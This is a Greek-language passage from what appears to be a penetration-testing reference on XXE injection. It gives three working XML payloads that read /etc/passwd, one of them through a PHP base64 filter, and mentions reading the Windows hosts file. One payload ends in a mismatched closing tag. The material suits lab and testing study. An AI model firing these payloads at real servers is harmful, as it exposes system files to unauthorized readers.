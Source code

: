 ![](<../.gitbook/assets/image (220).png>)

### Διάβασμα αρχείου

Ας προσπαθήσουμε να διαβάσουμε το `/etc/passwd` με διάφορους τρόπους. Για τα Windows μπορείτε να δοκιμάσετε να διαβάσετε: `C:\windows\system32\drivers\etc\hosts`

Σε αυτήν την πρώτη περίπτωση παρατηρήστε ότι το SYSTEM "_\*\*file:///\*\*etc/passwd_" θα λειτουργήσει επίσης.
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```
![](<../.gitbook/assets/image (221).png>)

Αυτή η δεύτερη περίπτωση θα πρέπει να είναι χρήσιμη για να εξάγετε ένα αρχείο εάν ο διακομιστής ιστού χρησιμοποιεί PHP (Όχι στην περίπτωση των εργαστηρίων Portswiggers)
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```
Σε αυτήν την τρίτη περίπτωση παρατηρούμε ότι δηλώνουμε το `Element stockCheck` ως ΟΠΟΙΟΔΗΠΟΤΕ
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<stockCheck>
<productId>&file;</productId>
<storeId>1</storeId>
</stockCheck3>
```
![](<../.gitbook/assets/image (222) (1).png>)
